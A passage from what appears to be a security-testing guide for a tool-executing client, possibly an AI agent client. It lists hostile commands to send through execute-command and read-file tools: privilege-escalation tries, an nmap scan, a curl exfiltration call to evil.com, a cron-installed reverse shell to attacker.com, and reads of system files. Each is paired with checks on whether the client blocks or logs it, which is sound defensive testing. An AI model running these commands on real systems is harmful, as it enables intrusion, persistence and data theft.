 ```bash
# Basic command execution
execute-command --command="whoami"
execute-command --command="id"
execute-command --command="pwd"

# System information gathering
execute-command --command="ps aux"
execute-command --command="netstat -tulpn"
execute-command --command="cat /proc/version"

# Privilege escalation attempts
execute-command --command="sudo -l"
execute-command --command="su root"

# Network operations
execute-command --command="nmap -sT localhost"
execute-command --command="curl http://evil.com/exfil"

# Persistence attempts
execute-command --command="echo '* * * * * /bin/bash -i >& /dev/tcp/attacker.com/4444 0>&1' | crontab -"
```

**What to Look For**:

- Are dangerous commands blocked or sandboxed?
- Can the attacker escalate privileges?
- Is network access restricted?

### 3. Data Exfiltration Detection

**Objective**: Test if the client monitors and prevents data exfiltration.

**Tests**:

```bash
# Monitor what data is collected
exfiltration-summary

# Attempt to gather comprehensive system info
system-info --includeEnv=true --includeProcesses=true --includeNetwork=true

# Read multiple files in sequence
read-file --filePath="/etc/hosts"
read-file --filePath="/etc/resolv.conf"
read-file --filePath="/proc/cpuinfo"
read-file --filePath="/proc/meminfo"
```

**What to Look For**:

- Does the client log file access attempts?
- Are there rate limits on file operations?
- Is sensitive data redacted or blocked?
